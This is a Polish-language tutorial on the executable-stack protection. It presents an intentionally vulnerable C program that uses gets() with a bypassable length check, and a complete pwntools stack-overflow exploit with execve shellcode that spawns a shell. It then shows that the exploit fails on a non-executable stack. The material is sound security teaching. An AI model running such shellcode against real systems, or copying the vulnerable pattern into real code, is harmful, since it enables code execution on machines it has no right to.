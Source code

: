 # 1.Executable stack

### 1.1

`gcc` defaultowo włącza non-executable stack - można go wyłączyć flaga `-z execstack`.
Tak samo zachowuje się `clang`. Jest to argument przekazywany do linkera. Obecnie niektóre stare binarki linuxowe mogą wymagać wykonywalnego stacku dlatego ta opcja jest włączona. Wykonywalny stack jest pokonywany za pomocą oznaczenia pamięci stacku jako niewykonywalnej. Nie ma tu żadnego spadku wydajności, jedynie ewentualnie problemy z kompatybilnością ze starymi plikami.


### 1.2 Proof of concept
Pierwszym omówionym exploitem i obroną przed nim bedzie wykonywalny stack.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
        puts("Nope, it's too long for me");
        exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Błędem jest użyta tu funkcja `gets()` i pozornie działające sprawdzenie długości inputu.

Dokumentacja `strlen()` mówi, że funkcja sprawdza dlugość do otrzymania `x00`. Taki znak możemy dokleić, aby przepełnić bufor.

Używając pythona i pakietu pwntools postaram się wykorzystać ten błąd.

Schemat exploitacji jest następujący:

* ustalić miejsce w pamięci, w którym nadpisujemy adres powrotu
* ustalić miejsce w pamięci, w którym znajduje się bufor
* nadpisać adres powrotu adresem bufora, w którym znajduje się nasz kod.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15
```

Exploit omija sprawdzenie. Następnie za pomocą gdb ustaliłem, w którym miejscu można nadpisać adres powrotu oraz adres, w którym zaczyna się bufor (Adres został wyjęty z gdb).

```python
name += "\x20\xd2\xff\xff"
```

W tym momencie wystarczy do stringa name dokleić shellcode wywołujący execve i odpowiednimi parametrami. Shellcode ten zaczerpnałem ze strony `http://shell-storm.org/shellcode/files/shellcode-811.php`.

```python
name += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Cały exploit wygląda następująco:

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15 # inject aaaas till eip
name += "\x20\xd2\xff\xff" # inject address of shellcode to eip
name += "\x31\xc0\x50\x68\x2f\x2f\x73"+"\x68\x68\x2f\x62\x69\x6e\x89"+"\xe3\x89\xc1\x89\xc2\xb0\x0b"+"\xcd\x80\x31\xc0\x40\xcd\x80" #shellcode to spawn shell

p.sendline(name)

p.interactive()

```


Exploit działa na programie skompilowanym z wykonywalnym stackiem.

![img.png](img.png)

Natomiast skompilowany bez flagi pozwalającej na wykonywanie kodu na stacku nie działa.

![img_1.png](img_1.png)
